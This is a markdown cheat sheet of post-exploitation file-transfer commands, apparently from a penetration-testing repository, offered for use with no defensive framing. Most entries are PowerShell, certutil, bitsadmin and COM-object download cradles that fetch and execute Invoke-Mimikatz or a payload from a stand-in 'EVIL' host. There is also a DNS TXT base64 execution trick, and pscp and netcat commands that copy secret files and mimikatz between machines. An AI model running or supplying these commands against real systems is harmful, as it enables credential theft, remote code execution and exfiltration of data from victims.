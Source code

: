 # Ultimate File Transfer List

## powershell.exe

### powershell proxy auth
```
$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### powershell 4.0 & 5.0 Invoke-WebRequest (works in constrained language mode)
```
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

### powershell 3.0+ download and execute (bypass IE firstrun check)
```
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)
```

### powershell (any version)
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```
```
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")
```

### hidden IE com object
```
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
```

### Msxml2.XMLHTTP COM object
```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### WinHttp COM object
```
[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### bitstransfer
```
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r
```

// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record
```
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))
```


### from @subtee
```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

References:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe
```
cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"
```
References: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe
```
pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt
```

## certutil.exe
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```
References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d > binary.exe
```

## print.exe
```
C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe
```
References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe
```
C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab
```

## esentutl.exe
```
C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o
```

## extrac32.exe
```
C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt
```

## netcat
```
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe
```

## web browser / server
```
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork
```

## wget
```
wget http://10.10.10.10:80/info.txt -O /tmp/info.txt
```

## curl
```
curl -o /tmp/info.txt http://10.10.10.10:80/info.txt
```

## rdesktop
```
rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'
```



